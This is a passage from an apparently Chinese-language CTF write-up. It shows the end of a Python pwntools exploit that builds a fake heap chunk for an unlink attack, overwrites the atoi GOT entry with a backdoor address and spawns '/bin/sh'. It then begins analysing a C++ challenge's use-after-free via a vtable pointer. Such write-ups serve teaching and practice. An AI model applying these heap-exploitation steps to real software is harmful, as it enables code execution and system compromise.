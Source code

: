 ```python
    setplan(0x30,b"aaaa") #idx0
    setplan(0,b"a"*0x18) #idx1
    setplan(0xf0,b"aaaa") #idx2
    setplan(0x10,b"aaaa") #idx3
    #gdb.attach(p)
    ptr = 0x6020C0
    fd = ptr - 0x18
    bk = ptr - 0x10
    payload1 = p64(0) + p64(0x21) + p64(fd) + p64(bk) + p64(0x20) + p64(0) #fake chunk
    edit(0,0,payload1)
    payload2 = b"a"*0x10 + p64(0x50) + b"\x00"
    edit(1,0,payload2)
    end(2)
    payload3 = p64(0)*3 + p64(atoi_got)
    edit(0,0,payload3)
    #gdb.attach(p)
    edit(0,0,p64(back_door))
    
    p.sendline(b"/bin/sh")
    p.interactive()
    
if __name__ == "__main__":
    exp()
```



### easycpp | Author: eqqie

#### 分析

这是一道c++的pwn，IDA直接F5逆向出来看得不是很清楚，建议直接看汇编比较明了。

下面是main函数：

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  B *ptr; // eax
  B *B1; // ebx

  setvbuf(stdout, 0, 2, 0);                     // 无缓冲
  ptr = (B *)operator new(4u);                  // 实例化一个B对象
  B1 = ptr;
  ptr->_vptr_A = 0;
  B::B(ptr);
  operator delete(B1);
  fgets(buf, 1024, stdin);
  strdup(buf);                                  // 用buf所在的字符串大小来开辟空间
  ((void (__cdecl *)(B *))*B1->_vptr_A)(B1);
  return 0;
}
```
